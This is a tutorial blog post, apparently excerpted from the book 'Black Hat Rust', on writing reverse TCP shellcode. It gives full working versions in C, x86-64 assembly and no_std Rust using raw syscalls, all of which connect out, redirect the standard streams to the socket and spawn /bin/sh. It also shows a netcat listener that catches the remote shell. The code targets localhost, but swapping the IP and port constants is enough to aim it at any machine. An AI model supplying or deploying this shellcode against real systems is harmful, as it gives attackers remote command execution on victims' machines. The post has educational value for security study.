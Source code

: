 +++
date = 2022-08-02T01:00:00Z
title = "Advanced shellcode in Rust"
type = "post"
tags = ["hacking", "programming", "rust", "tutorial"]
authors = ["Sylvain Kerkour"]
url = "/advanced-shellcode-in-rust"

[extra]
lang = "en"
+++

After seeing how to [craft a shellcode in Rust](https://kerkour.com/shellcode-in-rust) and how to [execute it](https://kerkour.com/rust-execute-from-memory), it's time to build a  more advanced shellcode, in Rust too, to understand where a high-level language really shines.

A reverse TCP shellcode establishes a TCP connection to a server, spawns a shell, and forward STDIN, STOUT, and STDERR to the TCP stream. It allows an attacker with a remote exploit to take control of a machine.

> This post is an excerpt from my book [Black Hat Rust](https://kerkour.com/black-hat-rust)


Here is what it looks like in C:

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void main() {
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(8042);

  inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);

  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);

  char *argv[] = {"/bin/sh", NULL};
  execve(argv[0], argv, NULL);
}
```

And here is its assembly equivalent, that I found [on the internet](https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html):

```assembly
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall


push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx

mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall

pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall

push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```

🤯 🥴

I think I don't need further explanations about why a higher-level language is needed for advanced shellcodes.

Without further ado, let's start to port it to Rust.

First, our constants:

**[ch_08/reverse_tcp/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/reverse_tcp/src/main.rs)**
```rust
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;

const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;

const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```

Then, the `sockaddr_in` struct copied from `<netinet/in.h>`:
```rust
#[repr(C)]
struct sockaddr_in {
    sin_family: u16,
    sin_port: u16,
    sin_addr: in_addr,
    sin_zero: [u8; 8],
}

#[repr(C)]
struct in_addr {
    s_addr: u32,
}
```

And finally, logic of our program, which take some parts of the `shell` shellcode.
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    let socket_addr = sockaddr_in {
        sin_family: AF_INET as u16,
        sin_port: PORT,
        sin_addr: in_addr { s_addr: IP },
        sin_zero: [0; 8], // initialize an emtpy array
    };
    let socket_addr_size = core::mem::size_of::<sockaddr_in>();

    unsafe {
        let socket_fd = syscall3(SYS_SOCKET, AF_INET, SOCK_STREAM, IPPROTO_IP);
        syscall3(
            SYS_CONNECT,
            socket_fd,
            &socket_addr as *const sockaddr_in as usize,
            socket_addr_size as usize,
        );

        syscall2(SYS_DUP2, socket_fd, STDIN);
        syscall2(SYS_DUP2, socket_fd, STDOUT);
        syscall2(SYS_DUP2, socket_fd, STDERR);

        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, 0);
    };

    loop {}
}
```

Way more digest, isn't it?


Let's try it:

In shell 1:
```bash
$ nc -vlnp 8042
Listening on 0.0.0.0 8042
```

In shell 2:
```bash
$ make run_tcp
```

And Bingo! We have our remote shell.


## The code is on GitHub

As usual, you can find the code on GitHub: [github.com/skerkour/black-hat-rust](https://github.com/skerkour/black-hat-rust/tree/main/ch_08/reverse_tcp) (please don't forget to star the repo 🙏).


**Want to learn more about Rust for Security?** Take a look at my book **[Black Hat Rust](https://kerkour.com/black-hat-rust)**.
